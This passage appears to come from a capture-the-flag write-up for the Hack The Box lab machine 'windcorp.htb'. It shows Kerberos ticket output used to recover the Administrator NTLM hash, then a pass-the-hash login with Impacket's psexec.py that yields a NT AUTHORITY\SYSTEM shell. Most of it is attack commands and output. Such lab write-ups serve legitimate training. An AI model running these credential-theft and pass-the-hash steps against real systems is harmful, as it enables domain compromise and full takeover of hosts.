      BwMFAEDhAAClERgPMjAyMjAyMTUyMDU1NTBaphEYDzIwMjIwMjE2MDY1NTUwWqcRGA8yMDIyMDIyMjIw
      NTU1MFqoDhsMV0lORENPUlAuSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0Gwx3aW5kY29ycC5odGI=

  ServiceName              :  krbtgt/windcorp.htb
  ServiceRealm             :  WINDCORP.HTB
  UserName                 :  Administrator
  UserRealm                :  WINDCORP.HTB
  StartTime                :  2/15/2022 9:55:50 PM
  EndTime                  :  2/16/2022 7:55:50 AM
  RenewTill                :  2/22/2022 9:55:50 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Y2ShnVaqaFrXCXpNqzYAbg==
  ASREP (key)              :  662AA9C7E28E82FA9F4BF650EBAE77D4

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 3CCC18280610C6CA3156F995B5899E09
```

We’ve got a NTLM hash for Administrator account.

With the hash we can execute the [`psexec.py`](http://psexec.py) from `Impacket` package in order to log into the host as Administrator.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation/privesc]
└──╼ [★]$ /usr/share/doc/python3-impacket/examples/psexec.py -hashes 3CCC18280610C6CA3156F995B5899E09:3CCC18280610C6CA3156F995B5899E09 Administrator@10.129.96.114
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.96.114.....
[*] Found writable share ADMIN$
[*] Uploading file SVUvcZnt.exe
[*] Opening SVCManager on 10.129.96.114.....
[*] Creating service KZhe on 10.129.96.114.....
[*] Starting service KZhe.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

We’ve got `NT AUTHORITY\SYSTEM`.

